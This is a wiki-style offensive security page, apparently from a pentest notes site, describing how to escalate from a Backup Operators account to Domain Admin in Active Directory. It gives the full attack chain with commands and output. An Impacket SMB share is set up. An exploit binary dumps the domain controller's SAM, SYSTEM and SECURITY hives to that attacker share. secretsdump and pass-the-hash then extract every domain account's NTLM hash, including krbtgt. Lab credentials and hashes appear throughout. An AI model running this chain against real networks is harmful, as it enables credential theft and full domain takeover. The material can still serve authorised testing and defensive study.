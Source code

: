 ```yaml
---
title : "BackupOperatorToDA"
# pre : ' '
description : "From Backup Operator To Domain Admin."
date : 2022-02-22T17:33:18+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## BackupOperatorToDA - From Backup Operator To Domain Admin

If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller.

All credit from [filip_dragovic](https://twitter.com/filip_dragovic) with his inital [POC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) ! I build this project because I wanted to have a more generic binary with parameters and also being able to export the SAM database on the remote share!

## Prerequisites

- Compile the `.sln` file from [Github Repo](https://github.com/mpgn/BackupOperatorToDA) (or trust mine below.)
- Impacket [smbserver.py]({{< ref "smbserver-py" >}})
- Impacket [secretsdump.py]({{< ref "secretsdump-py" >}})
- Account in target domain with the 'Backup Operator' membership

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"%}}

### Account checking

First it it important to be sure the user is member of the 'Backup Operator' group.

```plain
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johndo>whoami
offsec\johndo

C:\Users\johndo>net user johndo /domain
The request will be processed at a domain controller for domain offsec.nl.

User name                    johndo
Full Name                    John Do
[...]

Local Group Memberships      *Backup Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Set-up smbserver.py

It is recommended to check if the share is reachable from a Windows workstation without additional credentials.

```plain
$ smbserver.py -smb2support -ip 10.20.30.16 share .
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.20.30.12,50555)
[*] AUTHENTICATE_MESSAGE (OFFSEC\johndo,WIN10)
[*] User WIN10\johndo authenticated successfully
[...]
```

## Exploiting the vulnerable configuration

### Executable running and dumping SAM/SYSTEM/SECURITY

```plain
PS C:\> .\BackupOperatorToDA_release.exe -t \\srv2019.offsec.nl -u johndo -p Welkom1234 -d offsec.nl -o \\10.20.30.16\share\
Making user token
Dumping SAM hive to \\10.20.30.16\share\SAM
Dumping SYSTEM hive to \\10.20.30.16\share\SYSTEM
Dumping SECURITY hive to \\10.20.30.16\share\SECURITY
```

### Secretsdump SAM/SYSTEM/SECURITY

Two hashes can be used from here, the **'$MACHINE.ACC'** and/or **'administrator'** hash.

```plain
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x9319e551be8d75919967f0065e0132b9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:43bcb[...]
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1842947e54ab3d9a8758531e8fc6049
[...]
```

### Dump everything

### Using administrator hash

```plain
$ secretsdump.py offsec.nl/administrator@srv2019.offsec.nl -hashes :97f2592347d8fbe42be381726ff9ea83 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

### Using machine account hash

```plain
$ secretsdump.py offsec.nl/'srv2019$'@srv2019.offsec.nl -hashes :e1842947e54ab3d9a8758531e8fc6049 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

## URL List

- [Github.com - From Backup Operator To Domain Admin](https://github.com/mpgn/BackupOperatorToDA)
